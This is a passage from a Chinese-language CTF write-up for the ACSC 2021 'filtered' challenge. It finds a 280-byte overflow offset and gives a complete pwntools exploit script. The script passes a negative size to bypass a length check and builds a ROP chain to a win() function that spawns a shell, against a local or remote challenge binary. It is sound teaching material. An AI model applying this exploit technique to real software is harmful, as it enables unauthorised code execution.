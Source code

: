 ```
pwndbg> cyclic --offset uaac
280
```

在 ``` Data：``` 里输入 280 个缓冲不能令其崩溃，经测试证明 281 可以令程序崩溃而 280 不可。故正确缓冲应该是 280。

另外在分析源码时，你会发现 ```execve``` 和 ```/bin/sh``` 在函数 ```win()``` 内，但这个函数是永远不会被触碰的，换句话来说只要执行 ```win()``` 函数就可以获得 Shell。

如何去执行这个函数呢？我们可以利用 pwntools 的返回导向编程 (rop) 功能来实现。

## exploit.py 漏洞利用脚本

```
#!/usr/bin/env python3

'''
ACSC 2021 filtered

gcc -fno-stack-protector -no-pie -fPIE filtered.c -o filtered

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

'''

from pwn import *

# debug purpose
#context.log_level = "debug"

context.binary = elf = ELF('./filtered', checksec=True)

if args.REMOTE:
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
        p = remote('filtered.chal.acsc.asia', 9001)
elif args.GDB:
        #context.terminal = ['tmux','splitw','-h']
        context.terminal = ['gnome-terminal','--window','-e']
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
        p = process('./filtered')
        gdb.attach(p, gdbscript='tbreak *main')
else:
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
        p = process('./filtered')

PATTERN_OFFSET = 280

rop = ROP(elf)
#rop.call(rop.ret[0])
rop.win()

log.info(rop.dump())

p.recvuntil(b'Size: ')
p.sendline(b'-1')
p.recvuntil(b'Data: ')

payload = flat({ PATTERN_OFFSET: rop.chain() })

p.sendline(payload)
```